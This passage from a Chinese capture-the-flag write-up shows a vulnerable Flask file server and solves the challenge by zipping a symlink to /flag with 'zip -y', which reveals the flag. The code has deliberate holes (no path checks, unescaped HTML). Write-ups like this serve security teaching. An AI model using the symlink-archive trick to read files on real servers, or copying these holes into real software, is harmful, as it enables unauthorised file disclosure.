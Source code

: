 ```python
        return redirect('/media/')
    response = render_template('index.html')
    return response


@app.route('/media', methods=['GET'])
@app.route('/media/', methods=['GET'])
@app.route('/media/<path>', methods=['GET'])
def media(path=""):
    npath = os.path.join("/dev/shm/zip/media", path)
    if not os.path.exists(npath):
        return make_response("404", 404)
    if not os.path.isdir(npath):
        f = open(npath, 'rb')
        response = make_response(f.read())
        response.headers['Content-Type'] = 'application/octet-stream'
        return response
    else:
        fn = os.listdir(npath)
        fn = [".."]+fn
        f = open("templates/template.html")
        x = f.read()
        f.close()
        ret = "<h1>文件列表:</h1><br><hr>"
        for i in fn:
            tpath = os.path.join('/media/', path, i)
            ret += "<a href='"+tpath+"'>"+i+"</a><br>"
        x = x.replace("HTMLTEXT", ret)
        return x


os.system('mkdir /dev/shm/zip')
os.system('mkdir /dev/shm/zip/media')

app.run(host="0.0.0.0", port=8080, debug=False, threaded=True)
```

众所周知，使用 unzip 解压时会保留软连接，那么只需要构造一个含软连接的压缩包即可。

```bash
ln -s /flag flag
zip -y flag.zip flag
```

为 zip 命令添加 `-y` 参数可以将将软链接按原样存储，也就是存储软链接而不是该软链接引用的文件。

然后 flag 就到手了：`flag{NeV3r_trUSt_any_C0mpResSed_File}` 。

## Flag 即服务

### 零·获得代码
